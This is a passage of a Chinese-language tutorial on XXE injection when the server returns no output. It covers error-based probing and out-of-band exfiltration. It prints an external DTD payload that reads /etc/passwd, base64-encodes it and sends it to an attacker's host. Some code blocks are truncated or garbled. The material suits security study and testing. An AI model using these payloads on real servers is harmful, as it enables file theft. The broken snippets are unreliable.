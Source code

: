 但是也只能读取一些简单的文本文件，如果文本中含有&或%还是无法进行读取。

### 1.3.3、无回显

当遇到服务器响应始终为空的情况时，针对 XXE 漏洞可以选择报错利用和外带利用两种策略。

#### 1.3.3.1、报错利用

通过构造特殊的 XXE 请求来触发服务器的错误响应。通常，当服务器处理错误的 XXE 请求时，会返回一些有关其内部环境的信息。输入任意文件或目录，查看返回包，如返回 500“没有那个文件或目录”，则证明文件不存在，如返回 200，则证明文件存在。

```php
<?xml version="1.0" encoding="UTF-8"?>
%remote;]>
```

![image.png](assets/1700812438-25851ce70a91c291f17e58493bef328c.png)

#### 1.3.3.2、外带利用

通过 XXE 请求控制服务器发出的网络请求，尝试让服务器向我们的 VPS 发起请求，这样就可以直接在 VPS 上查看请求的结果。

1、可以引用外部 DTD

我们可以使用参数实体，引用外部 DTD。

```php

Payload
    
    %remote;%int;%send;
    ]>

test.dtd

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip?p=%file;'>">
```
